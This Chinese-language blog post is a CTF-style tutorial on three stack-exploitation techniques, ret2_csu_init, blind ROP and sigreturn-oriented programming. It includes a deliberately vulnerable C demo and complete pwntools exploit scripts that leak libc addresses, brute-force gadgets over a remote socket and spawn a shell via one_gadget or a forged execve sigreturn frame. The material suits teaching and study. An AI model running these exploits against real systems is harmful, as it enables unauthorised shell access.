

---

layout: post

title: 'srop、brop和ret2_csu_init技术分析'

date: '2019-10-25'

header-img: "img/home-bg.jpg"

tags:
     - rop pwn 
author: 'De4dCr0w'

---
<!-- more -->

### ret2_csu_init技术分析

__libc_csu_init()存在两个gadget，组合起来就可以调用一个函数，并且三个参数可控：



题目demo代码：

```
#undef _FORTIFY_SOURCE
#include <stdio.h>
#include <stdlib.h>
#include <unistd.h>

void vulnerable_function() {
	char buf[128];
	read(STDIN_FILENO, buf, 512);
}

int main(int argc, char** argv) {
	write(STDOUT_FILENO, "Hello, World\n", 13);
	vulnerable_function();
}
```
就是一个简单的栈溢出，保护只开了NX，栈不可执行，所以需要通过rop来get shell。

exp 代码：
```
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'

p = process("./level5")

gadget1 = 0x4005EA
gadget2 = 0x4005D0
main_addr = 0x400558
write_got = 0x601018
one_gadget = 0xf1147

def csu(addr, edi, rsi, rdx):
    rop = ''
    rop += p64(gadget1)
    rop += p64(0) # rbx
    rop += p64(1) # rbp
    rop += p64(addr) # r12 ->  call    qword ptr [r12+rbx*8]
    rop += p64(edi) # r13 -> mov     edi, r13d
    rop += p64(rsi) # r14 -> mov     rsi, r14
    rop += p64(rdx) # r15 -> mov     rdx, r15
    rop += p64(gadget2)
    rop += 'A'*8 # add     rsp, 8
    rop += 'A'*8*6 # pop six times
    rop += p64(main_addr)
    return rop

if __name__=='__main__':
    
    offset = 136
    p.recvuntil("Hello, World\n")
    payload = 'A'*offset + csu(write_got, 1, write_got, 8) #调用write向终端输出write got表的内容，即它的实际地址
    #gdb.attach(p)
    p.send(payload)

    libc_leak = u64(p.recv(8))
    print "libc_leak:", hex(libc_leak)
    libc = LibcSearcher('write',libc_leak);
    libc_base = libc_leak - libc.dump('write')
    print "libc_base：",hex(libc_base)

    one_gadget = one_gadget + libc_base

    p.recvuntil("Hello, World\n")
    payload = 'A'*offset + p64(one_gadget)
    p.send(payload)

    p.interactive()
```

该技术其实只是找到了一个ropper脚本没发现的可利用的rop链，比较简单。

#### 参考链接

https://github.com/nushosilayer8/pwn/tree/master/ret2_csu_init

http://eternalsakura13.com/2018/03/31/return2csu/

https://xz.aliyun.com/t/4068

### brop 技术分析

BROP技术指在没有源码和二进制程序的情况下针对栈溢出漏洞进行自动化攻击。该思路假设服务器程序在崩溃后使用fork重启，在这种情况下，即使程序开启ASLR、NX以及Canary保护也可以利用成功

通过write函数将内存dump到本地：

```
write(fd, buf, size);
```

将fd改成socket id，并且将buf的首地址改成代码段的话，就能够完成内存的dump
通过以下三个rop gadget对fd，buf，size进行赋值：

```
pop %rdi;ret;
pop %rsi;ret;
pop %rdx;ret;
```

BROP利用步骤：
1. 根据栈溢出，需要找到发送多少个字节才会溢出
2. 爆破canary，爆破main函数的起始地址，这样就能为后续的查找提供判断依据，只有要判断的函数正确返回才会重新执行main函数，这	就是所谓的stop gadget
3. 查找usefule gadget ，就是连续pop六次的地址，目的是要找到pop rdi， ret； pop rsi， pop r15， ret这两个gadget，为了后面传参，pop rdx，ret 不好找，借助strcmp函数设置rdx，rdx保存比较成功的字节数。（这里题目没有用到，到时候遇到再看）
4. 查找puts@plt地址，也是通过爆破，能够输出内容，说明找到了
5. 对elf程序进行dump，从0x400000开始，目的是为了找到puts函数的.got.plt地址，因为上面保存了puts函数的libc地址，用于泄露，这里可能需要对elf的结构进行分析，但题目中，我们在第五步已经找到puts@plt地址，我们将这个地址后面的操作码转成汇编，就能知道它jmp到哪去（jmp的目标地址即为puts 的.got.plt地址）
6. 获取puts的libc地址后就可以通过LibcSearcher获取libc基址，得到one_gadget
7. 覆盖返回地址为one_gadget，get shell！

以下是对上述步骤的一些补充知识：

Gadgets包含以下几种：useful gadgets、stop gadgets和crash gadgets。其中useful gadgets是我们传统rop技术中通常会用到的gadgets，如“pop rdi；ret”等等；stop gadgets是使程序陷入循环的一种gadgets，类似于C语言中sleep函数的功能；crash gadgets是会使程序崩溃的gadgets。

64位程序中一定存在以下gadgets：pop rbx；pop rbp；pop r12；pop r13；pop r14；pop r15；ret。其中pop r14的机器码是41 5e, 5e是pop rsi的机器码；pop r15的机器码是41 5f，5f是pop rdi的机器码。因而只要找到了这个通用gadgets，也就找到了pop rdi和pop rsi。


构造如下的栈布局：


如果ret addr填充的是连续pop六次的地址，则最后会call stop gadget 进入main函数，显示正常。不是ret addr错误程序就会崩溃，我们可以据此爆破出ret addr的地址。

exp：

```
from pwn import *
from LibcSearcher import *
import time

host = 'localhost'
port = 10001

def log_on():
    context.log_level = 'info'
def log_off():
    context.log_level = 'critical'

def fuzz_offset(): #(1)
    i = 1
    while True:
        try:
            p = remote(host, port)
            p.recvuntil("WelCome my friend,Do you know password?\n")
            p.send('A'*i)
            result = p.recv()
            p.close()
            if not "No password" in result:
                return i-1
            else:
                #print i
                i += 1
        except EOFError:
            p.close()
            return i-1

def fuzz_stop_gadget(offset): #(2)
    addr = 0x400000
    while True:
        addr += 1
        try:
            p = remote(host, port)
            p.recvuntil("WelCome my friend,Do you know password?\n")
            payload = 'A'*offset + p64(addr) 
            p.send(payload)
            result = p.recv()
            p.close()
            if "WelCome" in result:
                return addr
        except EOFError:
            p.close()
            
def fuzz_pop_gadget(offset, main_addr):#(3)
    addr = 0x400700
    while True:
        addr += 1
        try:
            p = remote(host, port)
            p.recvuntil("WelCome my friend,Do you know password?\n")
            payload = 'A'*offset + p64(addr) + p64(0)*6 + p64(main_addr) + p64(0)*10
            p.send(payload)
            result = p.recv(timeout=0.1)
            p.close()
            if "WelCome" in result:
                return addr
        except EOFError:
            p.close()
        except PwnlibException:
            return fuzz_pop_gadget(offset, main_addr)
                        
def fuzz_puts_addr(offset, main_addr, pop_rdi):#(4)
    addr = 0x400500
    while True:
        addr += 1
        try:
            p = remote(host, port)
            p.recvuntil("WelCome my friend,Do you know password?\n")
            payload = 'A'*offset + p64(pop_rdi) + p64(0x400000) + p64(addr) + p64(main_addr)
            p.send(payload)
            result = p.recv(timeout=0.1)
            p.close()
            if "ELF" in result:
                return addr
        except EOFError:
            p.close()

def leak_elf(logs, offset, main_addr, pop_rdi, puts_addr):#(5)
    addr = 0x400000
    start = addr
    content = ''
    while addr < (start+0x2000):
        try:
            if logs:
                logs.status("leak data: 0x%x"%(addr-0x400000))
            p = remote(host, port)
            p.recvuntil("WelCome my friend,Do you know password?\n")
            payload = 'A'*offset + p64(pop_rdi) + p64(addr) + p64(puts_addr) + p64(main_addr)
            p.send(payload)
            result = p.recvuntil("WelCome")
            result = result[:result.find("\nWelCome")]
            
            content += result
            if result == '':#如果返回为空，说明是\x00
                content += '\x00'
                addr += 1
            else:
                addr += len(result) 
            p.close()
        except EOFError:
            p.close()

    return content

def leak_libc(offset, main_addr, pop_rdi, puts_addr, puts_plt):#(6)
    try:
        p = remote(host, port)
        p.recvuntil("WelCome my friend,Do you know password?\n")
        payload = 'A'*offset + p64(pop_rdi) + p64(puts_plt) + p64(puts_addr) + p64(main_addr)
        p.send(payload)
        result = p.recvuntil("WelCome")
        result = result[:result.find("\nWelCome")]
        puts_libc = u64(result.ljust(8,'\x00'))
        libc = LibcSearcher('puts',puts_libc) 
        libc_base = puts_libc - libc.dump('puts')
        p.close()
        return libc_base
    except EOFError:
        p.close()

def get_shell(offset, one_gadget):#(7)
    try:
        p = remote(host, port)
        p.recvuntil("WelCome my friend,Do you know password?\n")
        payload = 'A'*offset + p64(one_gadget)
        p.send(payload)
        p.interactive()
        #p.close()
    except EOFError:
        p.close()
 

if __name__=='__main__':

    logs = log.progress("Find the offset")
    log_off()
    offset = fuzz_offset()
    log_on()
    logs.success("offset is %d " % offset)
    
    logs = log.progress("Find the stop_gadget")
    log_off()
    #main_addr = fuzz_stop_gadget(offset)
    log_on()
    main_addr = 0x4005b0
    logs.success("main_addr is at 0x%x " % main_addr)

    logs = log.progress("Find the pop_gadget")
    log_off()
    #pop_addr = fuzz_pop_gadget(offset, main_addr)
    log_on()
    pop_addr = 0x40079a
    logs.success("Find the pop_gadget at 0x%x " % pop_addr)

    logs = log.progress("Find the puts_addr")
    log_off()
    pop_rdi = pop_addr + 9
    #puts_addr = fuzz_puts_addr(offset, main_addr,pop_rdi)
    puts_addr = 0x400565
    log_on()
    logs.success("Find the puts_addr at 0x%x " % puts_addr)
    
    logs = log.progress("Leak the elf",level=logging.CRITICAL)
    log_off()
    #context.log_level = 'debug'
    #content = leak_elf(logs, offset, main_addr,pop_rdi,puts_addr)
    log_on()

    #open("leak-0x2000",'w').write(content)

    puts_plt = 0x601018
    
    logs = log.progress("Leak the Libc address",level=logging.CRITICAL)
    log_off()
    #context.log_level = 'debug'
    libc_base = leak_libc(offset, main_addr, pop_rdi, puts_addr, puts_plt)
    log_on()

    logs.success("Find the libc_base at 0x%x " % libc_base)

    one_gadget = 0xf1147
    one_gadget += libc_base

    get_shell(offset, one_gadget)
```

#### 参考链接

https://mp.weixin.qq.com/s/Old4dKS2aDp1TETTn0WzoQ

http://showlinkroom.me/2017/11/09/pwn%E4%B9%8BBROP/

http://www.scs.stanford.edu/brop/bittau-brop.pdf 最开始的研究文献

http://www.scs.stanford.edu/brop/bittau-brop-slides.pdf

https://kirin-say.top/2019/04/29/CTF-2019-PWN/

https://github.com/nushosilayer8/pwn/tree/master/brop

### srop技术分析

Linux接收信号后的处理大致过程如下：


在过程（2）中，进入Signal Handler处理前，会将用户进程的上下文保存在用户栈中，如下：


并在栈顶压入返回地址`rt_sigreturn`


在Signal handler执行完就会跳转执行sigreturn系统调用，在内核sigreturn系统调用处理函数中，会根据当前的栈指针指向的Signal Frame对进程上下文进行恢复，并返回用户态，从挂起点恢复执行。
此时就会将栈中的Signal Frame内容恢复，如果栈中的rip，rax，rdi等寄存器被改写，就可以执行任意函数。

在（2）过程中压入signal的数据结构（64位下）：


限制条件：

（1）需要可控的rip和栈

（2）栈的空间要足够大，能压入整个signal frame

srop利用技术需要两个重要的gadget：

（1）一个是sigreturn系统调用地址，，32位一般固定在vdso，64位下，内核版本小于3.3的固定在vsyscall，大于等于3.3的保存在libc中。但是可以通过伪造rax，再利用syscall进行调用。


（2）syscall ret;的地址

题目demo代码：


调用了read系统调用

```
#define __NR_read 0
#define __NR_write 1
#define __NR_rt_sigreturn 15
```

并将输入的数据放在rsp（栈）上，限制大小为0x400，其它啥都没了

（1）一开始调用read系统调用，传入0x400b3的地址

（2）调用main函数，传入0xb3，返回值不变，read读入一个字节，返回1，此时rax为1，此时系统调用变成write，泄露栈中的数据，得到栈的地址

（3）第二次调用read系统调用，传入伪造的SigreturnFrame，如下：

```
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(entry) + 'a' * 8 + str(sigframe)
p.send(payload)
```
栈的返回地址为0x400b0，回到程序起始继续read操作（伪造的SigreturnFrame是打算调用read(0, stack_addr, 0x400)系统调用）
此时栈信息如下：


（4）第三次调用read函数，传入：
```
sigreturn = p64(syscall_ret) + 'a' * 7
```

此时返回地址变为syscall ret；gadget的地址，因为读入的数据为15个字节，所以此时rax=15，进行rt_sigreturn 系统调用
此时栈中的信息如下：


（5）进行rt_sigreturn系统调用，返回时将栈中寄存器还原，调用read(0, stack_addr, 0x400)（第四次调用read），此时传入栈中（之前泄露的栈地址作为栈顶）的数据为：

```
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(entry) + 'a' * 8 + str(sigframe)
payload += (0x120 - len(payload)) * 'a' + '/bin/sh\x00'
p.send(payload)
```

此时栈顶还是0x400b0，回到程序起始继续read操作，（伪造的SigreturnFrame是打算调用sys_execve("/bin/sh\x00")系统调用）
此时栈中的信息如下：


（6）第五次调用read系统调用，传入的数据为:
```
sigreturn = p64(syscall_ret) + 'a' * 7
```

此时返回地址变为syscall ret；gadget的地址，因为读入的数据为15个字节，所以此时rax=15，进行rt_sigreturn 系统调用，返回时恢复寄存器，调用sys_execve("/bin/sh\x00")
此时栈中的信息如下：


利用过程如下：


利用exp代码：

```
from pwn import *
from LibcSearcher import *
context.log_level = 'debug'

binary_name = './smallest'

p = process(binary_name)
context.arch = 'amd64'

entry = 0x4000b0
syscall_ret = 0x4000be

payload = p64(entry) * 3
p.send(payload)

gdb.attach(p)

p.send('\xb3')
stack_addr = u64(p.recv()[8:16])
log.success('Found stack addr: 0x%x' % stack_addr)

# sigframe for read(0, new_stack_addr, 0x400)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_read
sigframe.rdi = 0
sigframe.rsi = stack_addr
sigframe.rdx = 0x400
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(entry) + 'a' * 8 + str(sigframe)
p.send(payload)

# send 15 bytes so that rax=15
sigreturn = p64(syscall_ret) + 'a' * 7
p.send(sigreturn)

# same thing, sigframe for execve('/bin/sh', 0, 0)
sigframe = SigreturnFrame()
sigframe.rax = constants.SYS_execve
sigframe.rdi = stack_addr + 0x120
sigframe.rsi = 0
sigframe.rdx = 0
sigframe.rsp = stack_addr
sigframe.rip = syscall_ret
payload = p64(entry) + 'a' * 8 + str(sigframe)
payload += (0x120 - len(payload)) * 'a' + '/bin/sh\x00'
p.send(payload)

# then sigreturn
p.send(sigreturn)

p.interactive()

```

#### 参考链接

https://github.com/nushosilayer8/pwn/tree/master/srop

https://www.freebuf.com/articles/network/87447.html

https://github.com/ctfs/write-ups-2015/tree/master/defcon-qualifier-ctf-2015/pwnable/fuckup 一道经典题